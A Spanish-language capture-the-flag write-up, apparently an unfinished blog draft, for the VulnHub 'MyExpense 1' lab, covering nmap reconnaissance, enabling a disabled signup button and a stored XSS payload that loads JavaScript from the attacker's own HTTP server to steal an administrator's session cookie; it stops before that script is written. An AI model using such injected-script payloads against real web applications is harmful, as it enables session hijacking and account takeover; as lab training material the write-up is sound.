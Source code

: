 ```yaml
---
layout: post
author: Isui Martinez
title: Writeup MyExpense 1 - Vulnhub (En redacción)
---
```

![Banner-MyExpense](/images/myexpense/banner-myexpense-vh.png "banner-myexpense1")
## My Expense from VulnHub Spanish Writeup

#### Skills

* Web Enumeration
* Enabling disabled button in the user's registration form
* XSS (Cross-Site Scripting)
* CSRF (Cross-Site Request Forgery)
* XSS + JavaScript file in order to steal the user's session cookie
* XSS + CSRF in order to activate new registered users
* XSS Vulnerability in message management system
* Stealing session cookies with XSS vulnerability in message handling system
* Cookie Hijacking
* SQL Injection (Union Query Based)
* Cracking Hashes
* Logging in as the boss and sending us the corresponding money

## Escenario
Usted es "Samuel Lamotte" y acaba de ser despedido de su empresa "Furtura Business Informatique". Lamentablemente, debido a su salida apresurada, no tuvo tiempo de validar su informe de gastos de su último viaje de negocios, que todavía asciende a 750 € correspondientes a un vuelo de regreso a su último cliente. Temiendo que su antiguo empleador no quiera reembolsarle este informe de gastos, decide hackear la aplicación interna llamada "MyExpense " para gestionar los informes de gastos de los empleados.  Así estarás en tu coche, en el aparcamiento de la empresa y conectado a la red Wi-Fi interna (la llave aún no ha sido cambiada después de tu salida). La aplicación está protegida mediante autenticación de nombre de usuario/contraseña y espera que el administrador aún no haya modificado o eliminado su acceso.  Tus credenciales fueron: samuel/fzghn4lw  
Una vez finalizado el desafío, la bandera se mostrará en la aplicación mientras esté conectado con su cuenta (samuel).

#### Configuración del entorno de pruebas para VMware
Configurar la interfaz de red de para que pueda servir en VMware.
Entrar en modo edición con la letra `E`
Escribir el comando:
```
rw init=/bin/bash
```
Y pulsar `Enter`
![](/images/myexpense/Pasted image 20240602225819.png)
Y pulsar la combinación de teclas: ``Ctrl+X`
Luego revisar desde Kali si ha sido asignada la dirección IP.
Ahora de deben de configurar las tarea automatizadas, de Python, se ingresa al directorio OPT:
```
cd /opt
```

![](/images/myexpense/Pasted image 20240602230542.png)

Mediante la herramienta de Nano se van a editar todos los archivos
### Reconocimiento
La fase de reconocimiento en un entorno local como el de este ejemplo puede funcionar un trace ICMP, y también un escaneo con `arp-scan`:

![](/images/myexpense/Pasted image 20240602231258.png)

Se puede intuir que el dispositivo objetivo es el que tiene asignada la dirección IP `192.168.93.143`. La trace ICMP, nos indica que el tiempo de vida de respuesta del paquete, es de 64, lo que da indicios de ser un posible sistema Linux.
```
┌──(isui㉿kali)-[~]
└─$ ping -c 1 192.168.93.143
PING 192.168.93.143 (192.168.93.143) 56(84) bytes of data.
64 bytes from 192.168.93.143: icmp_seq=1 ttl=64 time=1.21 ms

--- 192.168.93.143 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.206/1.206/1.206/0.000 ms
┌──(isui㉿kali)-[~]
└─$ 
```

Se puede continuar con un escaneo directo al objetivo con la herramienta nmap, con el fin de encontrar posibles puertos abiertos para analizar vulnerabilidades:
```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.93.143 -oG puertos
```
![](/images/myexpense/Pasted image 20240602232216.png)

Se pueden extraer los puertos del escaneo, con one-liner que extrae los puertos hallados durante el escaneo y los copia a la clipboard:
```
grep -oP '\d+/open/tcp/\S+' puertos | cut -d '/' -f 1 | tr '\n' ',' | xclip -selection clipboard
```

![](/images/myexpense/Pasted image 20240602232831.png)

Luego de ello, se debe realizar un escaneo a cada puerto detectado, con el comando:

```
sudo nmap -sCV -p80,49733,59151,60855 -A 192.168.93.143 -oN objetivo
```

Se puede ver el escaneo directo en la terminal, con la herramienta cat, en este caso se utilizo batcat, pero solo es una cuestión visual, lo importante es poder ver la información:

![](/images/myexpense/Pasted image 20240602232952.png)

Se observa la versión de Apache corriendo en el puerto 80, corriendo un servicio HTTP.
Aun como parte del reconocimiento, se realiza un analisis de la herramientas que utiliza el servicio web con la herramienta whatweb:

```
whatweb http//192.168.93.143
```

![](/images/myexpense/Pasted image 20240602233613.png)

Se puede ver la versión del servidor Apache, el titulo del sitio. A continuación se enviará un ataque de fuerza bruta, con nmap, para listar todas las posibles rutas del sitio web:

```
sudo nmap --script http-enum -p80 192.168.93.143 -oN webScan
```

![](/images/myexpense/Pasted image 20240602234140.png)

Muestra información intersante, así como un archivo robots, el cual se puede visualizar con el comando:

```
curl -s -X GET http://192.168.93.143/robots.txt
```

![](/images/myexpense/Pasted image 20240602234444.png)

Ingresando a la Web, se puede observar un botón para un posible login:

![](/images/myexpense/Pasted image 20240602234610.png)

![](/images/myexpense/Pasted image 20240602234629.png)

En base al script de `nmap` de detecto la dirección `/admin/admin.php` :

![](/images/myexpense/Pasted image 20240604234223.png)

Se despliega una lista de los usuarios, nombres, correos, rol, y estado de su cuenta, en nuestro caso particular la cuenta de Samuel, se encuentra **inactiva**.
En base al escenario, y reconocimiento, se puede inferir que el usuario, ya que se cuenta desde el comienzo con la contraseña:

![](/images/myexpense/Pasted image 20240604234646.png)

Se procede a probar las credenciales para tener acceso al aplicativo:

![](/images/myexpense/Pasted image 20240604234740.png)

La validación de las credenciales parece ser correcta, pero indica que la cuenta ha sido bloqueada o inhabilitada por los administradores:

![](/images/myexpense/Pasted image 20240604234912.png)

Se observa que hay un formulario para registrar usuarios, lo que puede permitir ver como se realizan las peticiones al servidor cuando se ejecuta dicho formulario. Se observa que el botón de `Sing up!` se encuentra deshabilitado:

![](/images/myexpense/Pasted image 20240604235915.png)

Este problema se puede resolver, desactivando el argumento `disabled` desde el código HTML:

![](/images/myexpense/Pasted image 20240605000119.png)

Y la cuenta se puede crear correctamente:

![](/images/myexpense/Pasted image 20240605000322.png)

Si se lista la nueva cuenta se puede observar:

![](/images/myexpense/Pasted image 20240605000421.png)

## XSS
A continuación mediante la creación de una nueva cuenta, ejecutara un CSRF para intentar cargar un recurso externo:
```
<script src="http://192.168.93.132/data.js"></script>
```
El proposito de este recurso, primeto es no generar sospecha sobre el administrador, si es que este esta vigilando el trafico. Luego de ello que que el servidor http de la organización, interprete y ejecute el recurso en mi máquina.
![[Pasted image 20240605002810.png]]
Para validar que este tipo de ataque, es posible, dede la máquina del atacante, se levanta un servidor http, con python, que deberia registrar los intentos solicitudes para cargar el recurso `data.js`.
```
python3 -m http.server 80
```
![](/images/myexpense/Pasted image 20240605003232.png)

Se tuvo exito, y el ataque llevado a cabo, intenta que el servidor ejecute el recurso, que en este momento no existe.
Ahora, con paciencia, se busca que algun usuario del lado del servidor, revise constantemente la web, para capturar esas solicitudes:



